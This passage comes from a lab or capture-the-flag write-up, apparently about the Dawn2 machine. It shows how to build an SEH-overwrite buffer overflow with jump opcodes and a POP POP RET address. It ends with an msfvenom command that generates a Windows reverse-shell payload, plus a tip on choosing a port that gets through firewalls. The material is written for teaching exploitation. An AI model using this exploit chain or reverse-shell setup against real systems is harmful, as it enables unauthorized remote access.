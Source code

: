 Cool, and looks like we have 4 bytes of space to play with before our POP POP RET address. Which is more than enough for some JMP SHORTs, we can look for these codes using ```msf-nasm_shell```

Doing some quick maths (and some trial and error cause I can't actually count) we want two Opcodes one jmp short to go -5 and one regular jmp to go -782 to the start of our payload.
```
nasm > JMP SHORT -5
00000000  EBF9              jmp short 0xfffffffb
nasm > JMP -782
00000000  E9EDFCFFFF        jmp 0xfffffcf2
nasm > 

```

Add these two our code as such,

```
        CRASH = b"\x41" * 783
        JMP = b"\xE9\xED\xFC\xFF\xFF"
        SRTJMP = b"\xEB\xF9\x90\x90"
        EIP = b"\xBA\x59\x58\x34"
        FILLER =b"\x43" * 128
        TERMINATE = b"\x00"
        buffer = CRASH + JMP + SRTJMP + EIP + FILLER + TERMINATE

```

![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-SEHTHEJUMPS.png)
![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-SEHTOPofThePayload.png)

Man look at how tight that is =P

So now that we know we have effectively hijacked the execution flow into a spot where our shellcode can live and I'm fairly confident with my counting skills (Though I've added a print statement to measure the size of the payload just in case) We can launch the server independently and generate our shellcode via ```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.165 LPORT=1985 -f py -v SHELL -b "\x00"```  
Notice how I'm using the same port as the service. There's a higher chance of recieving a reverseshell back if you use a port that's open on the target system because of things like firewall rules. Now obviously this isn't always the case but it's a more logical way of going about things than randomly using any port.
